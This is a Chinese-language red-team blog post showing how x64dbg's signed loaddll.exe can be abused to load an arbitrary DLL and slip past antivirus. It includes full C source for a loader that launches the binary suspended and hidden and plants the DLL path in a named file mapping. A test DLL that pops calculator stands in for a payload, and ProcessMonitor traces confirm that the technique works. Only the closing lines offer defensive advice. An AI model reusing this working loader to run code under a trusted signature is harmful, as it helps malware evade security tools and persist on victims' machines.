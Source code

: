 ```yaml
---
title: "x64dbg中的白加黑利用"
date: 2022-08-17T17:23:32+08:00
description: 在木马样本与杀毒软件的对抗中，再隐蔽的木马在被发现的那一刻，它的这一生就结束了。杀毒软件厂商通过SHA1/2、MD5等算法取得样本的唯一值来构建云端的特征库...
url: /archivers/2022-08-17/1
---
```


## 0x00 何谓白加黑？

在木马样本与杀毒软件的对抗中，再隐蔽的木马在被发现的那一刻，它的这一生就结束了。杀毒软件厂商通过SHA1/2、MD5等算法取得样本的唯一值来构建云端的特征库，当下一次攻击发生时，将会通过特征库进行比对，因此成本对抗不言而喻，红队的木马需要重新修改、编译，大大增加了对抗的时间、精力，这就是威胁情报的一种价值。反观有些软件确实会需要开发一些敏感行为的功能，如修改注册表、屏幕录像截图但这些是用户知情且授权的行为，这时杀毒软件再进行拦截的话，将大大降低软件使用的体验，所以出现了软件签名技术可以解决这类问题，当然软件签名技术不仅仅是为了只解决这一个问题而出现的。有些APT组织会通过控制软件开发商的代码仓库进行投毒或者通过入侵软件开发商来窃取签名，给自己的木马加上签名验证，杀毒软件遇到签名将会默认信任这个程序。但攻击软件开发商所需要投入的成本也相对比较高，telegram上也出现了花钱签名的服务，不过白嫖怪的数量可比金主爸爸要多，白嫖怪为了得到一个可以以签名程序运行自己任意代码的条件就会去挖掘一些软件厂商的程序是否存在DLL劫持漏洞，利用DLL劫持的特性达到披着羊皮的狼的目的。现阶段基本上大多数的APT组织在进行权限维持都会采用白加黑的技术来绕过杀毒软件的拦截和检测（特殊行为除外）。本文将会分享一个关于x64dbg这款调试工具的白加黑利用技巧。

## 0x02 x64dbg的DLL加载组件

[x64dbg](https://github.com/x64dbg/x64dbg) 是一个开源的Windows平台下的调试工具，相比于OllyDbg我更喜欢x64dbg。打开x64dbg的目录，可以看到有一个loaddll.exe程序，顾名思义，它一定具有dll加载的功能。

![](../../../static/images/2022-08-17-15-50-00.png)

在跟进到它的[源代码](https://github.com/x64dbg/x64dbg/blob/development/src/loaddll/loaddll.cpp)：

```cpp
#include <windows.h>

wchar_t szLibraryPath[512];

int main()
{
    wchar_t szName[256];
    wsprintfW(szName, L"Local\\szLibraryName%X", (unsigned int)GetCurrentProcessId());
    HANDLE hMapFile = OpenFileMappingW(FILE_MAP_READ, false, szName);
    if(hMapFile)
    {
        const wchar_t* szLibraryPathMapping = (const wchar_t*)MapViewOfFile(hMapFile, FILE_MAP_READ, 0, 0, sizeof(szLibraryPath));
        if(szLibraryPathMapping)
        {
            lstrcpyW(szLibraryPath, szLibraryPathMapping);
            UnmapViewOfFile(szLibraryPathMapping);
        }
        CloseHandle(hMapFile);
    }
    if(szLibraryPath[0])
        return (LoadLibraryW(szLibraryPath) != NULL);
    return 0;
}
```

代码非常简单，大致功能是读取本地系统上一个文件映射具柄，从文件映射句柄中获取要加载的dll文件路径。文件句柄的名称包含了当前进程的PID，是不固定的。那么如何实现任意文件加载呢？

这个问题也比较简单，我的大致思路：

1. 调用CreatProcess创建一个暂停的主线程的loaddll.exe
2. 获得loaddll.exe这个进程的启动信息，读取到它的进程ID
3. 创建文件映射，把要加载的dll路径写入文件映射中，等待loaddll.exe读取
4. 将loaddll.exe进程的线程从挂起状态恢复成运行状态

Invoke-Loader测试代码：

```c
#include <Windows.h>
#include <stdio.h>
#include <sddl.h>

WCHAR dllPath[1024] = L"C:\\Windows\\Temp\\Test\\DllMain.dll";
WCHAR loaderPath[] = L"C:\\Windows\\Temp\\Test\\loaddll.exe";

HANDLE CreateMapFile() {
	HANDLE hFile = NULL;
	hFile = CreateFile(L"C:\\Windows\\Temp\\Test\\2.log", FILE_GENERIC_READ | FILE_GENERIC_WRITE, FILE_SHARE_READ,
		NULL,
		OPEN_ALWAYS,
		NULL,
		NULL);
	if (hFile == INVALID_HANDLE_VALUE) {
		return NULL;
	}
	WriteFile(hFile, dllPath, sizeof(dllPath), NULL, NULL);
	return hFile;
}

int __stdcall WinMain(
	HINSTANCE hInstance,
	HINSTANCE hPrevInstance,
	LPSTR     lpCmdLine,
	int       nShowCmd
){
	wchar_t szName[256];
	DWORD dwFileSize = 0;
	
	HANDLE hFile = NULL;
	HANDLE hFileMap = NULL;
	SECURITY_ATTRIBUTES attributes;
	STARTUPINFO si;
	PROCESS_INFORMATION pi;
	ZeroMemory(&si, sizeof(si));
	si.cb = sizeof(si);
	ZeroMemory(&pi, sizeof(pi));
	ZeroMemory(&attributes, sizeof(attributes));
	attributes.nLength = sizeof(attributes);
	
	ConvertStringSecurityDescriptorToSecurityDescriptorA(
		"D:P(A;OICI;GA;;;SY)(A;OICI;GA;;;BA)(A;OICI;GWGR;;;IU)",
		SDDL_REVISION_1,
		&attributes.lpSecurityDescriptor,
		NULL);

	hFile = CreateMapFile();
	if (hFile == NULL) {
		return 0;
	}
	
	
	BOOL bStatus = CreateProcessW(loaderPath, NULL, NULL, NULL, FALSE, CREATE_SUSPENDED| CREATE_NO_WINDOW, NULL, NULL, &si, &pi);
	if (bStatus == NULL) {
		/*wprintf(L"[-] CreateProcess Error %d \n", GetLastError());*/
		return 0;
	}
	
	ZeroMemory(szName, sizeof(szName));
	
	wsprintfW(szName, L"Local\\szLibraryName%X", (unsigned int)pi.dwProcessId);
	
	
	hFileMap = CreateFileMappingW(hFile, &attributes, PAGE_READWRITE, 0, 1024, szName);
    

	ResumeThread(pi.hThread);

	Sleep(3000);
	return 0;
}
```

编写一个dll文件用于测试：

```cpp
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"
#include <stdio.h>

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        // 弹出一个计算器
        WinExec("calc.exe", TRUE);
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

## 0x03 加载任意dll测试

![](../../../static/images/2022-08-17-15-51-15.png)

双击Invoke-Loader.exe，就会弹出计算器：

![](../../../static/images/2022-08-17-15-51-29.png)

通过ProcessMonitor分析一下过程是不是如我所想的那样：

![](../../../static/images/2022-08-17-15-51-41.png)

首先创建了2.log，内容是DllMain.dll的绝对路径，然后再创建loaddll.exe：



![](../../../static/images/2022-08-17-15-51-52.png)

主线程创建的时候因为是暂停状态，是没有加载任何dll的，当文件映射设置完毕，恢复线程状态后，它成功的加载了DllMain.dll。
![](../../../static/images/2022-08-17-15-52-04.png)

![](../../../static/images/2022-08-17-15-52-14.png)

这里的calc.exe的父进程是loaddll.exe。

## 0x04 总结


![](../../../static/images/2022-08-17-15-52-37.png)

该程序上次更新已经是2020年了，可能已经被大范围滥用。


![](../../../static/images/2022-08-17-15-52-47.png)

白加黑是一个降低红队攻击成本的一个方案，能够规避很多杀毒软件的拦截和扫描，在应急响应阶段对于签名程序的分析应更加关注签名程序加载的模块、进程行为做了哪些操作，签名验证仅仅是提高了攻击的门槛，不应该绝对信任签名程序。